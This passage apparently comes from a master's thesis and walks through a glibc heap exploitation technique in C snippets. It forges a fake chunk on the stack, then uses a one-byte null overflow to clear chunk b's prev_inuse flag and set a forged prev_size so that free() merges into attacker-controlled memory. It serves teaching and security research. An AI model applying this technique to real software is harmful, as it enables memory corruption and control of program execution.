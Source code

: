 \documentclass{masterthesis}
\newcommand*\sbs{small bins}
\begin{document}
\begin{figure}[h!]
 \caption{chunk layout}
 \label{fig:gdb10}
\end{figure}

By considering the merge code of the free function, we can tell if we have control over \lstinline{prev_size}, and \lstinline{prev_inuse} flag, we can have control over the new chunk location.
Consider the following sample, first, we need a chunk inside the heap, also, we need a fake chunk in any location. For this example we use the stack for fake chunk:
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* a;
a = (uint8_t*) malloc(0x38);
int real_a_size = malloc_usable_size(a);
size_t fake_chunk[6];
fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the \sbs{}
fake_chunk[2] = (size_t) fake_chunk; // fwd
fake_chunk[3] = (size_t) fake_chunk; // bck
fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
 \end{lstlisting}

Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use \lstinline{a} in order to overflow and manipulate the size of \lstinline{b}.

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now it is time to set \lstinline{prev_size} of our fake chunk to an in order to merge it with our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}
\end{document}
